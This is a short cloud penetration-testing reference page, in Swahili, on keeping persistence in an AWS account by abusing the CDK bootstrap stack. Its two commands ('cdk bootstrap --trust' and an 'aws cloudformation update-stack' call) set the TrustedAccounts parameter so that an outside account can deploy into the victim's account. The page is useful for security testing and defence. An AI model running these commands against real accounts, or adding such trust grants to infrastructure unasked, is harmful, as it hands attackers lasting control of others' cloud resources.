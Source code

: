 # AWS - Cloudformation Persistence

{{#include ../../../banners/hacktricks-training.md}}

## CloudFormation

Kwa maelezo zaidi, tembelea:

{{#ref}}
../aws-services/aws-cloudformation-and-codestar-enum.md
{{#endref}}

### CDK Bootstrap Stack

AWS CDK inapeleka CFN stack inayoitwa `CDKToolkit`. Stack hii inasaidia parameter `TrustedAccounts` ambayo inaruhusu akaunti za nje kupeleka miradi ya CDK kwenye akaunti ya mwathirika. Mshambuliaji anaweza kutumia hii kuwapa ufikiaji usio na kikomo kwenye akaunti ya mwathirika, ama kwa kutumia AWS cli kupeleka tena stack na parameters, au AWS CDK cli.
```bash
# CDK
cdk bootstrap --trust 1234567890

# AWS CLI
aws cloudformation update-stack --use-previous-template --parameters ParameterKey=TrustedAccounts,ParameterValue=1234567890
```
{{#include ../../../banners/hacktricks-training.md}}
